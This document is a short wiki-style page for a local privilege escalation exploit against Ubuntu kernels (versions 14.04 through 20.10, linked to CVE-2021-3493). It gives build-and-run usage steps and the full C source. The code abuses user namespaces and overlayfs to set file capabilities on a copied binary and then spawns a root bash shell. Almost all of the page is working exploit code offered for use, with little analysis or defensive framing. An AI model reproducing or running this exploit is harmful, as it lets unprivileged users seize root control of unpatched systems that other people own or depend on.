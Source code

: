 <languages   />

Affected version
----------------

    Ubuntu 20.10
    Ubuntu 20.04 LTS
    Ubuntu 18.04 LTS
    Ubuntu 16.04 LTS
    Ubuntu 14.04 ESM

    Fixed in Linux 5.11

Screenshot
----------

[800px](FIle:2021-04-21_16.24.30.jpg "wikilink")

Usage
-----

    gcc exploit.c -o exploit
    chmod +x exploit
    ./exploit

EXP
---

    #define _GNU_SOURCE
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <err.h>
    #include <errno.h>
    #include <sched.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <sys/wait.h>
    #include <sys/mount.h>

    //#include <attr/xattr.h>
    //#include <sys/xattr.h>
    int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


    #define DIR_BASE    "./ovlcap"
    #define DIR_WORK    DIR_BASE "/work"
    #define DIR_LOWER   DIR_BASE "/lower"
    #define DIR_UPPER   DIR_BASE "/upper"
    #define DIR_MERGE   DIR_BASE "/merge"
    #define BIN_MERGE   DIR_MERGE "/magic"
    #define BIN_UPPER   DIR_UPPER "/magic"


    static void xmkdir(const char *path, mode_t mode)
    {
        if (mkdir(path, mode) == -1 && errno != EEXIST)
            err(1, "mkdir %s", path);
    }

    static void xwritefile(const char *path, const char *data)
    {
        int fd = open(path, O_WRONLY);
        if (fd == -1)
            err(1, "open %s", path);
        ssize_t len = (ssize_t) strlen(data);
        if (write(fd, data, len) != len)
            err(1, "write %s", path);
        close(fd);
    }

    static void xcopyfile(const char *src, const char *dst, mode_t mode)
    {
        int fi, fo;

        if ((fi = open(src, O_RDONLY)) == -1)
            err(1, "open %s", src);
        if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
            err(1, "open %s", dst);

        char buf[4096];
        ssize_t rd, wr;

        for (;;) {
            rd = read(fi, buf, sizeof(buf));
            if (rd == 0) {
                break;
            } else if (rd == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "read %s", src);
            }

            char *p = buf;
            while (rd > 0) {
                wr = write(fo, p, rd);
                if (wr == -1) {
                    if (errno == EINTR)
                        continue;
                    err(1, "write %s", dst);
                }
                p += wr;
                rd -= wr;
            }
        }

        close(fi);
        close(fo);
    }

    static int exploit()
    {
        char buf[4096];

        sprintf(buf, "rm -rf '%s/'", DIR_BASE);
        system(buf);

        xmkdir(DIR_BASE, 0777);
        xmkdir(DIR_WORK,  0777);
        xmkdir(DIR_LOWER, 0777);
        xmkdir(DIR_UPPER, 0777);
        xmkdir(DIR_MERGE, 0777);

        uid_t uid = getuid();
        gid_t gid = getgid();

        if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
            err(1, "unshare");

        xwritefile("/proc/self/setgroups", "deny");

        sprintf(buf, "0 %d 1", uid);
        xwritefile("/proc/self/uid_map", buf);

        sprintf(buf, "0 %d 1", gid);
        xwritefile("/proc/self/gid_map", buf);

        sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
        if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
            err(1, "mount %s", DIR_MERGE);

        // all+ep
        char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

        xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
        if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
            err(1, "setxattr %s", BIN_MERGE);

        return 0;
    }

    int main(int argc, char *argv[])
    {
        if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
            setuid(0);
            setgid(0);
            execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
            err(1, "execl /bin/bash");
        }

        pid_t child = fork();
        if (child == -1)
            err(1, "fork");

        if (child == 0) {
            _exit(exploit());
        } else {
            waitpid(child, NULL, 0);
        }

        execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
        err(1, "execl %s", BIN_UPPER);
    }

Github
------

<https://github.com/briskets/CVE-2021-3493>